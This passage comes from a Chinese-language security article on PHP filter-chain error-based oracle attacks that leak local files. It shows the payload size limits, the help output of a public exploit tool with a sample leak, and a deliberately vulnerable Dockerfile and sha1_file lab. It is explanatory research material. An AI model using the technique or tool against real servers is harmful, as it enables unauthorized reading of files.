只有试图读取、写入或追加数据的函数与 `php://filter` 包装器兼容。一旦用 `file_exists` 或 `is_file` 等函数控制输入字符串，漏洞就不会被攻击，因为两者都在内部调用 `stats` ，并不支持包装器。

```plain
$ echo "START" > /tmp/test
$ php -r 'var_dump(is_file("/tmp/test"));' 
bool(true)
$ php -r 'var_dump(is_file("php://filter/dechunk/resource=/tmp/test"));' 
bool(false)
$ php -r 'var_dump(file_exists("/tmp/test"));' 
bool(true)
$ php -r 'var_dump(file_exists("php://filter/dechunk/resource=/tmp/test"));' 
bool(false)
```

### payload的大小限制

由于需要越来越多的过滤器filter来泄漏文件的最后一个字符，因此攻击链的大小将很快溢出，GET请求无法使用，无法通过这些用户输入成功利用，这也是为什么当封装在HTTP PUT或POST请求的嵌入参数中时，这个攻击会更合理和容易成功。

最后还应该注意，如果需要成功利用，需要发出许多请求来提取文件的全部内容，举例来说，假设有一个746个字符长的文件，完全泄漏并读取将需要大约14k个请求，最新的payload大小大约为50KB，下面是用于读取包含746个字符的文件的最后一个字符时请求的示例图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029231006-3e4b794c-766d-1.png)

## 九、自动化攻击过程演示

基于@hash\_kitten的文章开发了一个工具，并在这篇文章中提到了更多的技巧和优化方法。它可以在GitHub存储库中找到。  
[https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)  
[https://github.com/DownUnderCTF/Challenges\_2022\_Public/blob/main/web/minimal-php/solve/solution.py](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py)

工具目前允许选择一个目标，用于注入的POST参数和一个代理（如果需要查看请求的话就可以使用代理）：

```plain
$ python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER [--data DATA] [--headers HEADERS] [--verb VERB] [--proxy PROXY]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"


optional arguments:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
```

下面是环境搭建的`Dockerfile`文件and `index.php`文件。

```plain
FROM php:8.1-apache

RUN mv "$PHP_INI_DIR/php.ini-production" "$PHP_INI_DIR/php.ini"

COPY index.php /var/www/html/index.php
COPY test /test
```

```plain
<?php

sha1_file($_POST[0]);
```

正常情况下使用`sha1_file`函数，甚至不能返回文件的真实内容，但却可以通过本文的方法获得 `/test` 的文件内容，使用filters\_chain\_oracle\_exploit工具进行渗透的过程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029231033-4e645aec-766d-1.gif)

同时还支持其他模式，允许基于服务器的响应延迟进行攻击，或者为每个请求设置延迟，能够绕过防御。

## 十、文章结论

PHP filter可以说代表了一把真正的瑞士军刀，因为它们可以用在很多方面，从传递函数参数获得代码执行，到一个能够泄露本地文件内容，正如在这篇文章中看到的一样。同时受此问题影响的范围可能会更大，有数十个PHP函数受到影响。本文认为 `php://filter` 应该受到更多的限制，可以限制单个链中filter的使用数量。

### 参考链接

1.  \[PHP-FILTERS-DECHUNK-SOURCE-CODE\] [https://github.com/php/php-src/blob/PHP-8.1.16/ext/standard/filters.c#L…](https://github.com/php/php-src/blob/PHP-8.1.16/ext/standard/filters.c#L1724)
2.  \[HASH\_KITTEN-DOWNUNDERCTF-MINIMAL-PHP\] [https://github.com/DownUnderCTF/Challenges\_2022\_Public/tree/main/web/mi…](https://github.com/DownUnderCTF/Challenges_2022_Public/tree/main/web/minimal-php)
3.  \[HASH\_KITTEN-DOWNUNDERCTF-MINIMAL-PHP-WRITEUP\] [https://github.com/DownUnderCTF/Challenges\_2022\_Public/blob/main/web/mi…](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py)
4.  \[SYNACKTIV-PHP-FILTER-CHAINS-BLOGPOST\] [https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-…](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)
5.  \[UNICODE-DOCUMENTATION-UCS-4\] [http://www.unicode.org/versions/Unicode8.0.0/appC.pdf](http://www.unicode.org/versions/Unicode8.0.0/appC.pdf)
6.  \[CHUNCKED-TRANSFER-EXPLANATION\] [https://en.wikipedia.org/wiki/Chunked\_transfer\_encoding#Encoded\_data](https://en.wikipedia.org/wiki/Chunked_transfer_encoding#Encoded_data)
7.  \[X-IBM930-CODEC\] [https://www.fileformat.info/info/charset/x-IBM930/encode.htm](https://www.fileformat.info/info/charset/x-IBM930/encode.htm)
8.  \[IBM280-CODEC\] [https://www.fileformat.info/info/charset/IBM280/encode.htm](https://www.fileformat.info/info/charset/IBM280/encode.htm)
9.  \[IBM285-CODEC\] [https://www.fileformat.info/info/charset/IBM285/encode.html](https://www.fileformat.info/info/charset/IBM285/encode.html)
10.  \[PHP-STAT-DOC\] [https://www.php.net/manual/en/function.stat.php](https://www.php.net/manual/en/function.stat.php)
11.  \[WIKIPEDIA-BASE64-TABLE\] [https://en.wikipedia.org/wiki/Base64](https://en.wikipedia.org/wiki/Base64)
12.  \[PHP-FILESYSTEM-FUNCTIONS\] [https://www.php.net/manual/en/ref.filesystem.php](https://www.php.net/manual/en/ref.filesystem.php)
13.  \[PHP-EXIF-MODULE\] [https://www.php.net/manual/en/intro.exif.php](https://www.php.net/manual/en/intro.exif.php)
14.  \[GITHUB-PHP-PATCH-DISCUSSION\] [https://github.com/php/php-src/issues/10453](https://github.com/php/php-src/issues/10453)
15.  \[GITHUB-SYNACKTIV-PHP-FILTERS-CHAIN-ORACLE\] [https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)
16.  \[PHP-FILTER-CHAINS: FILE-READ-FROM-ERROR-BASED-ORACLE\] [https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)
